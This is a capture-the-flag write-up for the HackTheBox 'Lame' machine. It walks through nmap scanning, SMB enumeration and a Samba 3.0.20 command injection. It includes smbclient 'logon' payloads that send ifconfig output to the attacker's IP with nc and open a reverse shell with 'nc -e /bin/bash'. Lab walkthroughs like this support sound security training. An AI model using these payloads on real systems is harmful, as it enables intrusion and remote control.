

HTB - Lame Writeup
Link to room on HackTheBox
Scanning with nmap
nmap -p- --open -sS --min-rate=5000 -n -Pn -vvv 10.10.10.3 -oG allports
nmap -p21,22,139,445,3632 -sCV 10.10.10.3 -oN scan.txt

trying ftp anonymous login, but we dont have permission for up files or execute commands, and no files found in this directory
ftp 10.10.10.3
We can search exploits for ftp, smb or ssh versions
With -m param we can copy the script in local dir
searchsploit vsftpd 2.3.4
searchsploit -m vsftpd 2.3.4
We found a ftp exploit , we can inspect this python for manual exploit , we will try... but dont working
nc 10.10.10.3 21
We found this smb exploit
searchsploit Samba 3.0.20
We can enum with smbclient
smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Connect to tmp dir
smbclient //10.10.10.3/tmp -N --option 'client min protocol = NT1'
we execute a command on the remote computer using the samba logon command, as they do in the exploit we have found
logon "/=`nohup ping -c 1 10.10.14.10`"
try send a ifconfig
logon "/=`nohup ifconfig | nc 10.10.14.10 443`"
We can send a shell to my parrot machine
logon "/=`nohup nc -e /bin/bash 10.10.14.10 443`"
Create a pseudoconsole and interactive console
script /dev/null -c bash
Pulse control + Z for suspend terminal , put stty command and reset xterm , next put stty size
stty raw -echo; fg
Finally find flags
find / -name user.txt